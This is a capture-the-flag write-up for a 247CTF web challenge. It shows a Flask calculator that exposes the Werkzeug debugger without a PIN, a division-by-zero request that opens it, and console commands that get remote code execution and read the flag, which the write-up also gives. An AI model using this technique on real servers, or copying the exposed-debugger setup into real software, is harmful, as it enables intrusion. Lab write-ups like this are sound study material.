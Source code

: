 Flag:
`247CTF{0e310979093ef6309adcbcb418145200}`

Description:
Can you find the bug and trigger an exception in this web application?

Solution:
We start the challenge and connect to the given website.

We see this python code for a Flask app:

```py
from flask import Flask, request
from werkzeug.debug import DebuggedApplication
import os

app = Flask(__name__)
secret = os.urandom(32)
app.wsgi_app = DebuggedApplication(
    app.wsgi_app, evalex=True, console_path=secret, pin_security=False
)
app.config["SECRET_KEY"] = secret
calculate = {
    "+": lambda x, y: x + y,
    "-": lambda x, y: x - y,
    "*": lambda x, y: x * y,
    "/": lambda x, y: x / y,
}


def safe_cast(val, to_type):
    try:
        return to_type(val)
    except (ValueError, TypeError):
        return None


@app.route("/calculator")
def flag():
    number_1 = safe_cast(request.args.get("number_1"), int)
    number_2 = safe_cast(request.args.get("number_2"), int)
    operation = safe_cast(request.args.get("operation"), str)
    if None in (number_1, number_2, operation) or not operation in calculate:
        return "Invalid calculator parameters"
    return "Calculation complete: %s" % calculate[operation](number_1, number_2)


@app.route("/")
def source():
    return "

%s

" % open(__file__).read()


if __name__ == "__main__":
    app.run()
```


We can see that debug mode is on with no need for a pin:
```py
app = Flask(__name__)
secret = os.urandom(32)
app.wsgi_app = DebuggedApplication(
    app.wsgi_app, evalex=True, console_path=secret, pin_security=False
)
```

So we will need to trigger an exception somehow in order to get to the traceback page, in which we can activate our debuggin console.


We have this `/calculator` route:
```py
@app.route("/calculator")
def flag():
    number_1 = safe_cast(request.args.get("number_1"), int)
    number_2 = safe_cast(request.args.get("number_2"), int)
    operation = safe_cast(request.args.get("operation"), str)
    if None in (number_1, number_2, operation) or not operation in calculate:
        return "Invalid calculator parameters"
    return "Calculation complete: %s" % calculate[operation](number_1, number_2)
```

This takes three of the HTTP GET parameters; `number_1`, `number_2` and `operation`.
It then tries to calculate `number_1 [operation] number_2`.

So if we go to `/calculator?number_1=10&number_2=9&operation=-` we will get back: `Calculation complete: 1`

if we give invalid numbers (giving types which cannot be cast to an integer) or an invalid operation (one that isn't "+", "-", "*" or "/"),
we will get back: `Invalid calculator parameters` and not an exception.

However, we could still try to cause a different exception than a casting one - division by zero.
This type of exception is not being handled by the `safe_cast` function, as it can be thrown after casting the numbers and operation...
We can give valid integers: `number_1 = 1`, `number_2 = 0` and a valid operation `operation = /`,
and get the ZeroDivisionError exception thrown.

We go to `/calculator?number_1=1&number_2=0&operation=/` and indeed get the werkzeug traceback page.

We can click on the console icon on some of the lines there and we will not be asked for the pin.
At this point we have remote code execution on the Flask server, and we can do whatever we want:

```
[console ready]
>>> 1+1  # not sure why but I had to write this line in order to execute the lines after it, otherwise it just didn't give me any output... Weird bug
2
>>> import subprocess
>>> print(subprocess.getoutput("ls -la"))
total 8
drwxr-xr-x    1 notroot  notroot         36 Sep 28  2022 .
drwxr-xr-x    1 root     root            74 Jun  6 10:45 ..
-rw-rw-r--    1 notroot  notroot         41 May 21  2020 flag.txt
-rw-rw-r--    1 notroot  notroot       1090 Sep 28  2022 run.py
>>> print(subprocess.getoutput("cat flag.txt"))
247CTF{0e310979093ef6309adcbcb418145200}
```
